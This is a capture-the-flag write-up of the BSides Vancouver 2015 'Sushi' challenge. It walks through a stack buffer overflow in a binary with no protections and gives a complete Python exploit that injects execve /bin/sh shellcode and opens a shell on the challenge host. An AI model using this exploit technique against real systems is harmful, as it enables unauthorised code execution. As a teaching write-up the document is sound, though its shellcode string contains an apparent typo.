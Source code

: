 ```yaml
---
layout: post
title: "BSides Vancouver 2015 Sushi"
date: 2015-03-18 19:17:12 -0400
author: [barrebas]
comments: true
categories: [bsides vancouver]
---
```


### Solved by barrebas 

At the very last minute, we decided to join BSides Vancouvers' CTF. Sushi was a 100 point pwnable. 

We're given the binary (and the libraries are available if need be -- really nice, no guessing). Upon running it, it gives us some address and asks for money:

```bash
Deposit money for sushi here: 0x7ffc068ccfe0
aaaaaaaa
Sorry, $0.97 is not enough.
```

It seems to take the first character `a` (0x61 or 97) and use that. After fruitlessly trying to trigger a format string vulnerability, I disassembled the binary and checked out it in `gdb-peda`.

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Okay, no protections whatsoever. This means that the stack is executable too. The idea of string format vulnerability was quickly replaced with a good old buffer overflow:

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python -c 'print "".join(["%04d" % x for x in range(200)])' | ./sushi
Deposit money for sushi here: 0x7ffd0aa1edb0
Sorry, $0.48 is not enough.
Segmentation fault (core dumped)
bas@tritonal:~/tmp/yvrctf/sushi-100$ gdb ./sushi core
...snip...
Core was generated by `./sushi'.
Program terminated with signal 11, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7ffd0aa1edf8: 0x38313030  0x39313030
```

Upon supplying a large buffer, the program crashes. Apparently, the saved return address is overwritten with `00180019`, so now I had the offset. The program crashes upon executing the `ret` statement at `0x4005f2` because the address does not point to a valid memory location. 

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python -c 'print "A"*(18*4)+"BBBBCCCC"' | ./sushi
Deposit money for sushi here: 0x7ffdcfd360b0
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
bas@tritonal:~/tmp/yvrctf/sushi-100$ gdb ./sushi core
...snip...
Core was generated by `./sushi'.
Program terminated with signal 11, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/2wx $rsp
0x7ffdcfd360f8: 0x42424242  0x43434343
gdb-peda$ x/s 0x7ffdcfd360b0
0x7ffdcfd360b0:  'A' <repeats 72 times>, "BBBBCCCC"
```

What's more, each time upon running `sushi`, the program supplies the address of the buffer it is using! In other words, that's a nice place for shellcode!

The program uses `gets()` to get the input:

```bash
0x4005c5:  call  0x400480 <gets@plt>
```

This means that we can send null bytes, which we need to overwrite the saved return address with the address of our buffer. These things together (and the fact that the vulnerable binary is ran on a remote box) meant that it had to be run from a `socat` process:

```bash
$ socat TCP-LISTEN:4000,fork,reuseaddr EXEC:./sushi
```

Next was writing a simple exploit in python:

```python
from socket import *
import struct, telnetlib, re

def p(x):
    return struct.pack('<L', x)

def pQ(x):
    return struct.pack('<Q', x)
    
s=socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 4000))
s.connect(('sushi.termsec.net', 4000))

buf = s.recv(1000)
stack_addr = int(re.search('(0x[0-9a-f]+)', buf).group(1), 16)

print "[~] stack addr: 0x%lx" % stack_addr

# simple x64 execve shellcode
shellcode = "\x31\xc0\48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
# payload must overflow saved return address on stack
payload = shellcode + "A" * (72 - len(shellcode))
# we're given the address of our (executable!) buffer on the stack, so use that as return address
payload += pQ(stack_addr) + "\n"

s.send(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
s.close()
```

It ran locally after a bit of fine-tuning, so the proof was in the pudding:

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python ./sushi.py 
[~] stack addr: 0x7fffb3fc0480
Sorry, $0.49 is not enough.
cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
```

